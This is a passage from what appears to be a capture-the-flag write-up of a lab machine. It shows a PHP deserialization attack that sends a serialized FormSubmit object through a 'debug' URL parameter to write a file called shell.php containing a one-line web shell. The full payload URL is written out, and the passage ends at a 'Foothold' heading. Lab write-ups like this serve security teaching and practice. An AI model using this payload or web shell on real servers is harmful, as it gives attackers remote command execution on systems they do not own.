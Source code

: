 Let us see how it is done.

First, we run the exploit script which will serialize our object.

![](/assets/images/thm/debug/6.png)

Then, we take that line and put it in the debug parameter, full url:

```bash
http://10.10.201.232/index.php?debug=O:10:"FormSubmit":2:{s:9:"form_file";s:9:"shell.php";s:7:"message";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```

![](/assets/images/thm/debug/7.png)

Nothing has happened, we're getting the same page, let's see if shell.php has been written on the server.

## Foothold

![](/assets/images/thm/debug/8.png)
